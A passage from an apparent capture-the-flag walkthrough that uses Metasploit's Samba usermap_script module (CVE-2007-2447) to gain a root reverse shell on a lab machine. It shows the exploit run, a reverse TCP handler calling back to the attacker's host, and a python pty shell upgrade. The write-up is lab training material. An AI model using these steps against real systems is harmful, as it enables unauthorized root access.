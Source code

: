 ```
  RPORT   139              yes       The target port (TCP)

Payload information:
  Space: 1024

Description:
  This module exploits a command execution vulnerability in Samba 
  versions 3.0.20 through 3.0.25rc3 when using the non-default 
  "username map script" configuration option. By specifying a username 
  containing shell meta characters, attackers can execute arbitrary 
  commands. No authentication is needed to exploit this vulnerability 
  since this option is used to map usernames prior to authentication!

References:
  https://cvedetails.com/cve/CVE-2007-2447/
  OSVDB (34700)
  http://www.securityfocus.com/bid/23972
  http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534
  http://samba.org/samba/security/CVE-2007-2447.html

msf6 exploit(multi/samba/usermap_script) > 
```  

I configured the necessary options including setting the target host/port and the local host/port. Executing the exploit started a reverse shell on the target as the root user.   

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:55731) at 2021-01-11 09:16:25 -0500

whoami
root
pwd
/
```  

Next, i upgraded my shell using python in order to get a more functioning shell.   

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:55731) at 2021-01-11 09:16:25 -0500

whoami
root
pwd
/
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
python -c 'import pty;pty.spawn("/bin/bash")'
root@lame:/# 
```  
